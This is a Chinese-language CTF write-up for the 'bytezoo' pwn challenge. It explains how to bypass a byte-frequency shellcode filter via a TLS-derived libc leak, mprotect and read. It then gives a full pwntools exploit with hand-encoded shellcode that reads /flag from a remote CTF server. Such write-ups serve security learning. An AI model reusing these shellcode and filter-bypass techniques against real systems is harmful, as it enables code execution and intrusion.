


# bytezoo

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.12|

## seccomp rules



## 解题思路

题目读入shellcode，检查后将权限设置为rx，因此我们也不能原地搓个syscall出来，
而且syscall正好在页面的尾部，如果到那里执行的话，就会发生页错误。

初始条件下，我们几乎没有任何信息，除了要执行的代码段地址放在rax，
新开的栈放在rsp，另外都被清空了。然而出题人忘记了清除fsbase，即tls地址。
通过`tls - 0x38`，我们能找到 `main_arena` 的地址，进一步就可以反推出
`syscall` 函数的地址，这样我们就能使用syscall了。

题目的难点在设置了一个字典，每个字符会记录出现的次数，出现的次数上限，
取决于这个字符按十六进制写，两个数位里取较小的那个。例如 `0x57` 这个字符，
从 5 和 7 取个小值，即 5，`0x57` 最多能出现 5 次。`syscall`、`sysenter`、`int 0x80`，
这三个常用的系统调用指令都含 0 数位，都不能用，并且代码段不可写，不能改出来系统调用指令，
只能一点点绕。

例如我这里凑了一个 `mprotect` 和一个 `read` 出来，把代码段改成可写并重新覆盖为新
shellcode，这样就可以继续执行 open + sendfile 打印 flag 了。

> [!IMPORTANT]
> 我们常看见访问64位寄存器，如rax时，指令都会有 `48` 这个前缀，但其实其他字节也可以。
> 本质上 `48` 代表的含义是 **REX.W**，只要不含 **REX.B**（这会将寄存器变成r8~r15），
> 其他含 **REX.W** 的都可以拿来用。例如我下面就用 `4a` 来替换 `48`，这样就能多写几个
> 64 位指令。（其实这题全用 32 位寄存器也可以）

> [!TIP]
> 去问了出题人，原来的思路比这个复杂，由于不能写入syscall，
> 因此需要借助段尾部的syscall。通过搓一个 `mremap` 出来，
> 将代码段往后挪一页，这样在syscall返回后就能继续执行。直到挪到代码段与新栈相邻，
> 就可以往栈最低的地方写 `read` 的shellcode，再使用 `mprotect` 把栈改成 rwx，
> 代码段的syscall执行完后继续执行到栈上的代码，实现第二次 read。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './bytezoo'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b *$rebase(0x195d)\nc')
    else:
        t = remote('1.95.217.9', 8999)

    t.recvuntil(b'Show')

    def validate(buf: bytes) -> bool:
        cnt = [0] * 256
        for e in buf:
            cnt[e] += 1
            if min(e >> 4, e & 0xf) < cnt[e]:
                return False
        return True

    code = (
        # read main_arena from tls-0x30
        b'\x31\xc9'                 # xor ecx, ecx
        b'\x51'                     # push rcx
        b'\xb1\x38'                 # mov cl, 0x38
        b'\x48\xf7\xd9'             # neg rcx
        b'\x64\x48\x8b\x19'         # mov rbx, qword ptr fs:[rcx]
        # subtract main_arena to syscall function and store in rbx
        b'\xbf\xc7\xe6\xc8\xfe'     # mov edi, 0xfec8e6c7
        b'\xbe\x27\x23\xb9\xfe'     # mov esi, 0xfeb92327
        b'\x29\xf7'                 # sub edi, esi
        b'\x48\x29\xfb'             # sub rbx, rdi
        # perform mprotect(rip, 0x1000, 7)
        b'\x48\x89\xc6'             # mov rsi, rax
        b'\xbf\xaa\xaa\xaa\xaa'     # mov edi, 0xaaaaaaaa
        b'\xc1\xef\x1c'             # shr edi, 28 -> 0xa
        b'\xba\xff\xff\xff\xff'     # mov edx, 0xffffffff
        b'\x81\xea\xff\xef\xff\xff' # sub edx, 0xffffefff
        b'\x43\xba\xef\xff\xff\xff' # mov r10d, 0xffffffef
        b'\x43\x83\xc2\x18'         # add r10d, 0x18
        b'\x43\x52'                 # push r10
        b'\x59'                     # pop rcx -> 7
        b'\xff\xd3'                 # call rbx
        # perform read(0, rip, 0x1000)
        b'\x4a\x87\xce'             # xchg rsi, rcx
        b'\x4a\x96'                 # xchg rax, rsi
        b'\x4a\x87\xd7'             # xchg rdi, rdx
        b'\x5f'                     # pop rdi -> 0
        b'\xff\xd3'                 # call rbx
    )
    assert validate(code)

    info(f'Sending valid shellcode: {len(code)} bytes')
    t.send(code)
    if lo & 2:
        pause()
    else:
        sleep(0.125)
    code = '''
    # fd = open("/flag", 0)
    mov rax, 0x67616c662f
    push rax
    mov rdi, rsp
    xor esi, esi
    mov eax, 2
    syscall

    # sendfile(1, fd, NULL, 0x50)
    mov esi, eax
    mov edi, 1
    xor edx, edx
    mov r10d, 0x50
    mov eax, 40
    syscall

    # exit(0)
    mov eax, 60
    mov edi, 0
    syscall
    '''
    shellcode = b'\x90' * 0x4b + asm(code)
    info(f'Sending main shellcode: {len(code)} bytes')
    t.send(shellcode)

    t.recvuntil(b'{')
    flag = b'{' + t.recvuntil(b'}')
    success(f'Flag is: LilacCTF{flag.decode()}')

    t.close()
```


